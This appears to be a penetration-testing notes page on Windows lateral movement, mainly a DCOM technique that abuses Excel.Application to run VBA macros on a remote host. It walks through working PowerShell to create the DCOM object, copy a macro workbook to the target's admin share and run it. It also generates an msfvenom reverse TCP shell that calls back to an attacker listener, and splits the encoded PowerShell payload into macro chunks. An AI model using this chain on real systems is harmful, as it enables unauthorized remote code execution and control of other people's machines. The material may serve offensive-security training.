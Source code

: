 {% hint style="info" %}
Some tools like crackmapexec, Impacket’s mssqlclient allow you to specify whether you want a Windows login or a local one. The difference is that a local auth doesn’t require the credentials to be a Windows one, it could exist just for the service such as MS-SQL. If you find credentials try it for both. Look out for something like _**`--local-auth`**_ in the options.
{% endhint %}

## DCOM (Distributed Component Object Model)

Related to Microsoft Office Outlook and PowerPoint.

With this technique we could gain access to an internal machine.

{% code overflow="wrap" %}
```powershell
https://learn.microsoft.com/en-us/office/vba/api/Excel.Application.Run
https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/

Requirements:
- Microsoft Office installed on the target so best suitable for workstations (and we will also install it on our Windows VM for the attack)
- Access to both TCP 135 for DCOM and TCP 445 for SMB (they should be open on the target)
- Being local admin on that target machine
We will leverage the Excel.Application DCOM object in this example (change Excel for Outlook, PowerPoint...)
# Code to create DCOM object and enumerate methods
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$DC_IP"))
$com | Get-Member #We should see Run method to continue (allow us to execute a VBA macro remotely)
# Now we create a PoC of Excel file with notepad.exe or ping.exe as VBA macro
Sub mymacro()
    Shell ("ping.exe 192.168.1.111") #second interface of the DC_IP to be able to reach it externally
End Sub
# Copy the .xls file to the remote computer
$LocalPath = "C:\Users\user.corp\myexcel.xls"
$RemotePath = "\\$DC_IP\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
# Creating SYSTEM profile folder
$Path = "\\DC_IP\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
# Open the book
$Workbook = $com.Workbooks.Open("C:\myexcel.xls")
# Run VBA Macro
$com.Run("mymacro")
# After executing this PoC, we use the real payload with LHOST=IP of W10 client's 2nd network interface so DC can call back can call back to our Netcat listener
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.111 LPORT=4444 -f hta-psh -o evil.hta
# Next, we extract the line starting with "powershell.exe -nop -w hidden -e" followed by the Base64 encoded payload and use this simple Python script to split the command into smaller chunks, bypassing the size limit in Excel macros:
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
	print "Str = Str + " + '"' + str[i:i+n] + '"'
# We update our Excel macro to execute PowerShell and repeat the actions to upload it to the DC and execute it.
Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    ...
```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami 